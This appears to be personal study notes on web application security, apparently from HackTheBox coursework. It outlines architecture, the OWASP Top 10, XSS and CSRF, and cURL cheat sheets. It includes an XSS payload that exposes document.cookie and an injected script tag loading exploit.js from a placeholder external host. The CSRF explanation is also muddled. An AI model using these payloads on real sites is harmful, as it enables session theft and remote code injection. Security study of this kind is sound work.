
# 🌐 Web Application Layout

### 🧩 Categories
-   **Web Application Infrastructure**
    -   `Client-Server`
    -   `One Server`
    -   `Many Servers - One Database`
    -   `Many Servers - Many Databases`
-   **Web Application Components**
    1.  `Client`
    2.  `Server`
        -   Webserver
        -   Web Application Logic
        -   Database
    3.  `Services` (Microservices)
        -   3rd Party Integrations
        -   Web Application Integrations
    4.  `Functions` (Serverless)
-   **Web Application Architecture (3 Layers)**
    -   🖥️ Presentation Layer: Frontend
    -   ⚙️ Application Layer: Backend
    -   💾 Data Layer: Database
    
# 🧱 [OWASP Top 10](https://owasp.org/www-project-top-ten/) Vulnerabilities

1.  🚫 Broken Access Control
2.  🔐 Cryptographic Failures
3.  💉 Injection
4.  ⚠️ Insecure Design
5.  ⚙️ Security Misconfiguration
6.  🧩 Vulnerable & Outdated Components
7.  🧍 Identification & Authentication Failures
8.  🧱 Software & Data Integrity Failures
9.  📜 Security Logging & Monitoring Failures
10.  🌐 Server-Side Request Forgery (SSRF)


# 🎨 Frontend Vulnerabilities
## 💥 Cross-Site Scripting (XSS)
-   **3 types:**  `Reflected`, `Stored`, `DOM`
```javascript
#"><img src=/ onerror=alert(document.cookie)>
```
## 🌀 Cross-Site Request Forgery (CSRF)
- caused by unfiltered user input
- **common `CSRF` attack:** 
	- gain admin priv
	- craft a `JavaScript` payload that automatically changes the victim's password to the value set by the attacker.
```html
"><script src=//www.example.com/exploit.js></script>
```

## 🧰 Deobfuscation Tools
- [JS Console](https://jsconsole.com)
- [Prettier](https://prettier.io/playground/)
- [Beautifier](https://beautifier.io/)
- [JSNice](http://www.jsnice.org/)

# 🖥️ Backend Vulnerabilities

-   🔓 Broken Auth / Access Control (Bypass login)
-   📁 Malicious File Upload
-   🧨 Command Injection
-   💉 SQL Injection (SQLi)
-   🧾 CVEs (Common Vulnerabilities & Exposures)


# 🌐 cURL Commands
**option** | **desc**
|--|--|
`-o` | save in a file 
`-s` | for silent mode
`-k` |skip the certificate check
`-v` | print both the request and response
`-I` |	display response header
`-i` 	|	display response header and body
`-A` | to set our User-Agent from header
`-u admin:admin url` | 
`-H 'Authorization: Basic YWRtaW46YWRtaW4='` |
`-X POST -d 'username=admin&password=admin'` | 							-X for method and -d for data
`-L` | follow redirect link
`-b 'PHPSESSID=c1nsa6op7vtk7kdis7bcnbadf1'` | set cookies 
`-s` | jq |for good json structer
	
🧪 **Example:**
```bash
curl -X POST -d '{"search":"f"}' -b 'PHPSESSID=9501nu5f74kqgohjh4ogu6debb' -H 'Content-Type: application/json' http://94.237.51.163:42040/search.php
```


## 🧾 HTB cURL Cheat Sheet
**Command** | **Description**
|--|--|
`curl -h` | cURL help menu
`curl inlanefreight.com` | Basic GET request
`curl -s -O inlanefreight.com/index.html` | Download file
`curl -k https://inlanefreight.com` | Skip HTTPS (SSL) certificate validation
`curl inlanefreight.com -v` | Print full HTTP request/response details
`curl -I https://www.inlanefreight.com` | Send HEAD request (only prints response headers)
`curl -i https://www.inlanefreight.com` | Print response headers and response body 
`curl https://www.inlanefreight.com -A 'Mozilla/5.0'` | Set User-Agent header
`curl -u admin:admin http://<SERVER_IP>:<PORT>/` | Set HTTP basic authorization credentials
`curl http://admin:admin@<SERVER_IP>:<PORT>/` | Pass HTTP basic authorization credentials in the URL
`curl -H 'Authorization: Basic YWRtaW46YWRtaW4=' http://<SERVER_IP>:<PORT>/` | Set request header
`curl 'http://<SERVER_IP>:<PORT>/search.php?search=le'` | Pass GET parameters
`curl -X POST -d 'username=admin&password=admin' http://<SERVER_IP>:<PORT>/` | Send POST request with POST data
`curl -b 'PHPSESSID=c1nsa6op7vtk7kdis7bcnbadf1' http://<SERVER_IP>:<PORT>/` | Set request cookies
`curl -X POST -d '{"search":"london"}' -H 'Content-Type: application/json' http://<SERVER_IP>:<PORT>/search.php` | Send POST request with JSON data

## APIs

**Command** | **Description**
|--|--|
`curl http://<SERVER_IP>:<PORT>/api.php/city/london` | Read entry
`curl -s http://<SERVER_IP>:<PORT>/api.php/city/ | jq` | Read all entries
`curl -X POST http://<SERVER_IP>:<PORT>/api.php/city/ -d '{"city_name":"HTB_City", "country_name":"HTB"}' -H 'Content-Type: application/json'`|Create (add) entry
`curl -X PUT http://<SERVER_IP>:<PORT>/api.php/city/london -d '{"city_name":"New_HTB_City", "country_name":"HTB"}' -H 'Content-Type: application/json'` | Update (modify) entry
`curl -X DELETE http://<SERVER_IP>:<PORT>/api.php/city/New_HTB_City` | Delete entry

<!--stackedit_data:
eyJoaXN0b3J5IjpbLTE4NDIyOTM5MjksLTE0NDQ0OTI3NjQsLT
E3NDk4ODg2MTUsMTk2NTg1Njg2Ml19
-->